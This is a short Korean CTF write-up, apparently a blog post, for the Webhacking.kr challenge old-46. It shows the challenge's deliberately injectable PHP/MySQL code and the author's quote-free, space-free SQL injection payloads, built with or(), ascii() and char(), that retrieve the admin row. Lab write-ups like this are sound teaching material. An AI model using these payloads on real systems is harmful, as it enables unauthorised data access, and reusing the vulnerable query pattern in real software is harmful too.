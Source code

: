 ```yaml
---
title: ["[Webhacking.kr] old-46 (sqli - 30)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    $_GET['lv'] = addslashes($_GET['lv']);
    $_GET['lv'] = str_replace(" ","",$_GET['lv']);
    $_GET['lv'] = str_replace("/","",$_GET['lv']);
    $_GET['lv'] = str_replace("*","",$_GET['lv']);
    $_GET['lv'] = str_replace("%","",$_GET['lv']);
    if(preg_match("/select|0x|limit|cash/i",$_GET['lv'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id,cash from chall46 where lv=$_GET[lv]"));
    if($result){
      echo("{$result['id']} information<br><br>money : {$result['cash']}");
      if($result['id'] == "admin") solve(46);
    }
  }
?>
```

```
?lv=1  // ltusy
?lv=2  // udnrg
?lv=3  // fvvcg
?lv=4  // bzrbo
```
간단히 넣어봤을 때 이정도의 결과가 나왔다.  

```sql
select id,cash from chall46 where lv=$_GET[lv]
```
위와 같은 쿼리에 quotation과 공백 없이 인젝션을 하면 된다.  

```sql
select id,cash from chall46 where lv=(0)or(lv>4)
```
위 쿼리에는 아무 결과가 출력되지 않았다.  
admin은 lv값이 없는 것 같다.

```sql
select id,cash from chall46 where lv=(0)or(ascii(id)=97)
```
위의 쿼리가 실행되도록 인젝션을 해봤는데, `ajqng`라는 id가 또 있었다.  

```sql
select id,cash from chall46 where lv=(0)or(id=char(97,100,109,105,110))
```  
위의 쿼리는 잘 작동했다.  
quotation 없이 compare하는 방법은 정말 무궁무진한 것 같다.  


